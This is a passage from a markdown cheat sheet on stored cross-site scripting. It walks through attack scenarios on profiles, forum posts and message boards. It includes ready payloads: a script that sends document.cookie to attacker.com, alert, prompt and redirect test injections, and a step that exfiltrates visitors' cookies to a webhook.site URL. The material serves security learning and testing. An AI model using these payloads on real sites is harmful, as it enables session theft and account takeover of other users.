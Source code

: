 	- When other users visit the attacker's profile page, their browsers will be redirected to the attacker's website, and the user's cookies will be sent to the attacker.
3. **Forum Post:** Attack Scenario:
	- The attacker creates a new forum thread or posts a reply containing a malicious script.
	- The forum application stores the post in its database without proper validation or encoding.
	- When other users read the thread or view the replies, the malicious script is loaded and executed in their browsers.
	```js
		Forum Post: "Check out this cool website: <script>fetch('https://attacker.com/log?
		data='+document.cookie);</script>"
	```
	- When other users view the forum post, their browsers will make a request to the attacker's server, potentially leaking their cookies.
4. **Message Boards**: Attack Scenario:
	- The attacker submits a message containing a malicious script on a message board.
	- The message board application stores the message without proper validation or encoding.
	- When other users read the message, the malicious script is loaded and executed in their browsers.
	```js
	Message: "Important Update: <script>document.write('Site under attack!');</script>"
	```
	- When other users read the message, the script will be executed, and they will see the text "Important Update: Site under attack!" displayed on the page.

##### Attack Vector
1. **Find a parameter that its value is stored in the document or any other page**
2. **Try injection scripts**:
	```js
	<script>alert(1)</script>
	<img src=x onerror=prompt(1)>
	<img src=x onerror=window.location.href="https://google.com">
	```
3. **Connect the user of the website to your webhook**:
	```js
	<script> var i = new Image; i.src = "https://webhook.site/d73c9ce0-01e0-46e9-b192-774161b3fcd9/?"
	+ document.cookie; </script> 
	```
